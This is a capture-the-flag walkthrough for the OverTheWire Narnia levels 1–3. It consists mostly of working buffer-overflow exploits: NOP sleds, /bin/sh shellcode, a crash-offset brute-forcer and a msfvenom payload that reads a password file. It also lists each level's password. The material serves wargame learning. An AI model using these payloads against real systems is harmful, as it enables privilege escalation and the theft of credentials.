 # Python 3
```python
import struct
import sys

pad = b'\x41' * 20
sh = struct.pack("<L",0xdeadbeef)
out = pad + sh
sys.stdout.buffer.write(out)
```
- narnia1:eaa6AjYMBB
---
# Narnia 2
Envirment variable needs to be injected with shellcode.
Shellcode working for this one is:
http://shell-storm.org/shellcode/files/shellcode-607.html
```bash
EGG=$(perl -e 'print "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81"')
```
- narnia2:Zzb6MIyceT
---
# Narnia 3
```python
import subprocess

def execute_narnia2_with_argument(argument):
    try:
        # Run the narnia2 program with the specified argument
        result = subprocess.run(["/narnia/narnia2", argument], capture_output=True, text=True, check=True)

        # Check if the output contains "Segmentation fault"
        if "Segmentation fault" in result.stdout:
            return True
        else:
            return False
    except subprocess.CalledProcessError as e:
        print(f"Error: {e}")
        return True

def find_segmentation_fault():
    # Start with one character "A" in the argument
    load_argument = "A"
    counter = 1

    while True:
        if execute_narnia2_with_argument(load_argument):
            print(f"Segmentation fault detected with argument: {counter}")
            # Segmentation fault occurred, break the loop
            break
        else:
            # No segmentation fault, increase the argument
            load_argument += "A"
            counter += 1

if __name__ == "__main__":
    find_segmentation_fault()
```

SIZE = 132

```py
from pwn import *
import sys
import struct

context.update(arch='i386', os='linux')

shellcode = shellcraft.sh()

payload = b"\x90"* 91
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
payload += b"B" * 16
payload += struct.pack("I", 0xffffd3a8)
print(len(payload))

with open("payload", "wb") as f:
    f.write(payload)
```
## perl version

- Why is this always jumping out? Seems like a protection is on, when I invoke any shell the spawn of shell drops privileges.
```bash
./narnia2 $(perl -e 'print "\x90" x 91 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" ."B"x 16 . "\xa8\xd3\xff\xff"')

$(perl -e 'print "\x90" x 107 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" . "\xd8\xd3\xff\xff"')
```

- Solution to getting a next level key was to build payload with msfvenom and read it straight from file, no shell succeeded.
```py
# msfvenom -p linux/x86/read_file PATH=/etc/narnia_pass/narnia3 -b "\x00\x0a\x0d\x20" -f py

import sys
import struct

buf = b"\x90"* 15

buf += b"\xda\xcf\xbf\x27\xec\xe7\xa3\xd9\x74\x24\xf4\x5d"
buf += b"\x31\xc9\xb1\x16\x31\x7d\x19\x83\xed\xfc\x03\x7d"
buf += b"\x15\xc5\x19\x0c\x95\xb1\xe7\xd3\xda\xc1\xbc\xe2"
buf += b"\x13\x0c\xc2\x8c\x67\x36\xc0\x8e\x67\x46\x4e\x69"
buf += b"\xee\xbf\xea\x76\xe1\x3f\x0b\xba\x81\xb6\xc9\xfc"
buf += b"\x86\xc8\xcd\xfc\x3d\xc9\xcd\xfc\x41\x04\x4d\x44"
buf += b"\x40\x96\x4e\xb5\xf8\x96\x4e\xb5\xfe\x5b\xce\x5d"
buf += b"\x3b\x9c\x30\x62\xeb\x07\xbb\xfe\xdb\xa9\x22\x73"
buf += b"\x4a\x5c\xc4\x2c\xe2\xff\x75\xa0\x2d\x91\x18\x34"
buf += b"\x5c\x04\xba\x8b\xa0"

buf += b"B" * 4
buf += struct.pack("I", 0xffffd5f0)
print(len(buf))

with open("buf", "wb") as f:
        f.write(buf)
```

narnia3:8SyQ2wyEDU

# Narnia 4
